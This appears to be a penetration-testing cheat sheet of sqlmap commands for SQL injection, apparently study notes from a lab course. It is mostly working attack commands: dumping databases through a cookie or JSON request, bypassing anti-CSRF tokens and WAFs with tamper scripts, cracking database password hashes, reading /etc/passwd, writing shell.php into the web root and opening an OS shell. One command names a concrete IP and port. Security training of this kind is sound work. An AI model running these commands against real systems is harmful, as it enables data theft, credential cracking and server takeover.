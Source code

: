 

# INJECTION METHODS


-  SQL INJECTION IN COOKIE

```
sqlmap -u "http://94.237.53.53:33035/case3.php" --batch --dump --cookie="id=1*"
```

-  SQL INJECTION IN JSON DATA

```
sqlmap -r req.txt --dump --os-shell
```

# Handling SQLMap Errors

- Display Errors

```
--parse-errors
```

show error in output

- Store the Traffic

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```
stores traffic in traffic.txt

- Verbose Output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

- Using Proxy

```
--proxy=http://127.0.0.1:8080
```

# Attack Tuning

- adding prefix and suffix to the payload
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

works perfectly in this situation

- Level/Risk

```
- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
```

# Advanced Database Enumeration

- DB Schema Enumeration
```shell-session
--schema
```

- Searching for Data
```shell-session
 --search -T user
```

T => Table
C => column

- DB Users Password Enumeration and Cracking

```shell-session
--passwords --batch
```

- Anti-CSRF Token Bypass

```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

- randomize paramters

```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

- Hash to be supplied in `h` parameter
```shell-session
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```


- Tamper script

|**Tamper-Script**|**Description**|
|---|---|
|`0eunion`|Replaces instances of UNION with e0UNION|
|`base64encode`|Base64-encodes all characters in a given payload|
|`between`|Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`|
|`commalesslimit`|Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart|
|`equaltolike`|Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart|
|`halfversionedmorekeywords`|Adds (MySQL) versioned comment before each keyword|
|`modsecurityversioned`|Embraces complete query with (MySQL) versioned comment|
|`modsecurityzeroversioned`|Embraces complete query with (MySQL) zero-versioned comment|
|`percentage`|Adds a percentage sign (`%`) in front of each character (e.g. SELECT -> %S%E%L%E%C%T)|
|`plus2concat`|Replaces plus operator (`+`) with (MsSQL) function CONCAT() counterpart|
|`randomcase`|Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)|
|`space2comment`|Replaces space character ( ) with comments `/|
|`space2dash`|Replaces space character ( ) with a dash comment (`--`) followed by a random string and a new line (`\n`)|
|`space2hash`|Replaces (MySQL) instances of space character ( ) with a pound character (`#`) followed by a random string and a new line (`\n`)|
|`space2mssqlblank`|Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters|
|`space2plus`|Replaces space character ( ) with plus (`+`)|
|`space2randomblank`|Replaces space character ( ) with a random blank character from a valid set of alternate characters|
|`symboliclogical`|Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `\|`)|
|`versionedkeywords`|Encloses each non-function keyword with (MySQL) versioned comment|
|`versionedmorekeywords`|Encloses each keyword with (MySQL) versioned comment|

-  Checking for DBA Privileges
```shell-session
--is-dba
```

if yes

```shell-session
--file-read "/etc/passwd"
```

```shell-session
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

```shell-session
--os-shell
```

```shell-session
--os-shell --technique=E
```




